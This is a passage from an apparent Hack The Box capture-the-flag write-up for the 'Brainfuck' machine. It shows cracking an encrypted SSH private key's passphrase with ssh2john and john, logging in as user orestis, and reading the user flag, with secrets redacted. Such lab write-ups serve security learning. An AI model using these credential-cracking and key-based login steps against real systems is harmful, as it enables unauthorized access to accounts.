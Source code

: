 **However, the private key has passphrase:** (`ENCRYPTED`)
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|21:00:19(HKT)]
└> head -n 3 orestis_id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6904FEF19397786F75BE2D7762AE7382
```

**We can use `ssh2john` and `john` to crack it:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|21:01:03(HKT)]
└> ssh2john orestis_id_rsa > orestis_id_rsa_hash.txt
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|21:01:11(HKT)]
└> john --wordlist=/usr/share/wordlists/rockyou.txt orestis_id_rsa_hash.txt 
[...]
{Redacted}       (orestis_id_rsa)     
[...]
```

**We can now finally SSH into user `orestis` with the private SSH key!**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|21:01:27(HKT)]
└> ssh -i orestis_id_rsa orestis@$RHOSTS            
Enter passphrase for key 'orestis_id_rsa': 
[...]
orestis@brainfuck:~$ whoami;hostname;id;ip a
orestis
brainfuck
uid=1000(orestis) gid=1000(orestis) groups=1000(orestis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:91:d4 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.17/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:91d4/64 scope global mngtmpaddr dynamic 
       valid_lft 86396sec preferred_lft 14396sec
    inet6 fe80::250:56ff:feb9:91d4/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `orestis`!

**user.txt:**
```shell
orestis@brainfuck:~$ cat /home/orestis/user.txt 
{Redacted}
```
